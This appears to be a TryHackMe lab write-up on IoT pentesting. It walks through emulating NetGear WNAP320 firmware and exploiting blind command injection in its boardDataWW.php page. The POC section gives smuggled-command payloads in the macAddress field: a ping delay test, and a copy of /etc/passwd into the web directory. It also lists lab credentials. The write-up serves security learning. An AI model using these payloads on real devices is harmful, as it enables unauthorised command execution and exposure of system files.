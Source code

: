 > Intro To IOT PenTesting

export IP=10.10.148.167

**NOTE: SSH Credentials => iot:tryhackme123!**

We have been given a NetGear firmware. Let's unpack it. On unzippping `WNAP320 Firmware Version 2.0.3.zip` we have another tar file. And we ectract it too. There is a file `rootfs.sqash`. Running binwalk on that file we have a file system inside it. ANd accessing it's home directory we find a www directory. So there's a web application used.

And while examining all the php files we find a file `boardDataWW.php` which id vulnerable to blind command injection. The code has exec() command . Let's analyse rootfs.sqash using FAT (Firmware Analysis Tool). Lets copy rootfs.squash to the FAT folder. Change the pwner of file to root `chown root:root rootfs.squash`.

# Analysing

./fat.py rootfs.squash

```
[+] Firmware: rootfs.squashfs
[+] Extracting the firmware...
[+] Image ID: 1
[+] Identifying architecture...
[+] Architecture: mipseb
[+] Building QEMU disk image...
[+] Setting up the network connection, please standby...
[+] Network interfaces: [('brtrunk', '192.168.0.100')] => Take note of this IP
[+] All set! Press ENTER to run the firmware...
[+] When running, press Ctrl + A X to terminate qemu
[+] Command line: /home/iot/Desktop/firmware-analysis-toolkit/firmadyne/scratch/1/run.sh
```

Once emulation is done we have to port forward in our machine

`ssh -N iot@<IP> -L 8081:192.168.0.100:80`. Now accesing `http://localhost:8081` gives us NetGear login. Basic credentials are `admin:password`.

Accessing `http://localhost:8081/boardDataWW.php` then enter any MAC address and capture the request in Burp. Then send it to repeater. 

# POC

`macAddress=112233445566;+ping+-c+15+127.0.0.1+#&reginfo=0&writeData=Submit`

We have a 15 second delay for response proving us that we have blind command injection

`macAddress=112233445566;+cp+/etc/passwd+.+#&reginfo=0&writeData=Submit`

Now we have the password list.